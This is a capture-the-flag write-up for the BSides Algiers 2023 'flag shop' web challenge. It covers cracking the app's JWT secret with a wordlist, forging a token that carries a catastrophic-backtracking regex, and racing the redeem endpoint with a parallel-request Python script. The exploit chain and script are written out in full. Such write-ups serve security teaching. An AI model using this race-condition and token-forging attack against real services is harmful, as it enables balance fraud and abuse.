 # bsides-algiers-2023-flagshop
Writeup for the flag shop challenge in the web category from bsides algiers ctf
# info about the challenge
- Description: They got some fancy flags out there, but that one really takes time to get.
- Solves: 7
- Author: ouxs
- The code provides is in app.py and utils.py
# solution
[home page](./writeup1.png) \
  When we first register a user to the website ,we see in the home page 3 flags and to solve the challenge we need to by the flag that has a price of 40.99.\
  
  We can see that we have an initial balance of 10 and we have an option to redeem a ticket and add 10 to the balance, in order to see the format of the tickets we must see the code ,in app.py after checking the /redeem route we see many important informations in this section of the code \
  
```python
ticket = request.form["ticket"]
        token_content = jwt.decode(token, app.config['SECRET_KEY'], algorithms=["HS256"])
        username, regex = token_content["username"], token_content["ticket_regex"]
        if checkRedeem(username) and checkTicket(regex, ticket):
            userRedeem(username)
            return render_template("home.html", flags=flags, message="Ticket redeemed", balance=getBalance(username))
        else:
            return render_template("home.html", flags=flags, message="Can't redeem ticket", balance=getBalance(username))
```

   We can see that jwt is used and it has a ticket_regex in the payload, the regex is generated with the generateticket funtion in utils.py, we can clearly see that if a user uses a valid ticket once he will no longer be able to use the redeem option and thus the maximum balance he can have is 20 so we need to find a way to use the userReddem function more than once. \
   I tried cracking the jwt to get the secret key using john the ripper and the rockyou wordlist to see if i can play with the jwt payload, i found the secret key chickencurry. \
   
   After some research on how can regex be hard for computers to match against strings i found something called evil regex which are usually used for redos, so i thought of making a regex that can make the web server take long to match with the ticket so all the requests can pass the checkRedeem function before executing userRedeem. \
   
   I experimented with some regex locally and i made this one ^(a+)+$| and the ticket that i will send is "aaaaaaaaaaaaaaaaaaaaaaaa!", this will match the regex and take sometime because the webserver will try the first regex (a+)+$ which is an evil regex and does not match the ticket so it will test all the possible ways to say that it doesn't match and with the or operator it will match the second regex so we will have a matching object. \
   
   Now after finding the regex we make a jwt with that regex and make a script to send parallel requests using multiprocessing to make our balance bigger than the flag price. \
   
   here is the script:
   ```python
   import requests
from multiprocessing import Process

if __name__ == '__main__':
    # Define the URL to send the POST request to
    url = 'https://vrlmcgzdzytq6fy-flags-shop.insts.bsides.shellmates.club/redeem'

    tok="your token"
    # Define the cookies to send with the request
    cookies = {'token': tok}
    payload="aaaaaaaaaaaaaaaaaaaaaa!"
    # Define the data to send in the request body
    data = {'ticket': payload}
    # Send 5 POST requests in parallel using multiprocessing
    processlist = []
    for _ in range(0, 6):
        process = Process(target=requests.post, kwargs={"url":url,"cookies":cookies ,"data":data})
        processlist.append(process)

    for process in processlist:
        process.start()

    for process in processlist:
        process.join()
```
   edit your token cookie with the jwt that you have, now you can by the real flag!
   
